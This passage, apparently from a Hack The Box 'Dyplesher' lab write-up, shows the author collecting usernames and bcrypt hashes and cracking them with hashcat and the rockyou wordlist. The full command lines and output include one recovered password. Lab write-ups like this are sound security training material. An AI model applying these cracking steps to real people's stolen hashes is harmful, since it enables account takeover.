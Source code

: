I got some results back when trying to get values for the keys 'username' and 'password'.  I was able to collect three usernames and three password hashes.

```text
┌──(zweilos㉿kali)-[~/htb/dyplesher]
└─$ hashcat --help | grep -i bcrypt                                                           
3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
```

I identified the hashes as bcrypt by the $2 before the salt and used hashcat's help to get the right hashtype code. Next I fired up hashcat to attempt to crack the hashes using `rockyou.txt`.

```text
┌──(zweilos㉿kali)-[~/htb/dyplesher]
└─$ hashcat -O -D1,2 -a0 -m3200 hashes /usr/share/wordlists/rockyou.txt                              
hashcat (v6.1.1) starting...

Hashfile 'hashes' on line 3 ($2a$10...GefnAH3zipl.FRNySz5C4RjitiwUoalS): Token length exception
Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$12$c3SrJLybUEOYmpu1RVrJZuPyzE5sxGeM0ZChDhl8MlczVrxiA3pQK:mommy1
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: hashes
Time.Started.....: Sat Oct 10 18:16:31 2020 (1 min, 14 secs)
Time.Estimated...: Tue Oct 13 04:59:53 2020 (2 days, 10 hours)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       68 H/s (11.25ms) @ Accel:8 Loops:32 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests, 1/2 (50.00%) Salts
Progress.........: 9024/28688770 (0.03%)
Rejected.........: 0/9024 (0.00%)
Restore.Point....: 4512/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:320-352
Candidates.#1....: joselyn -> joselito
```
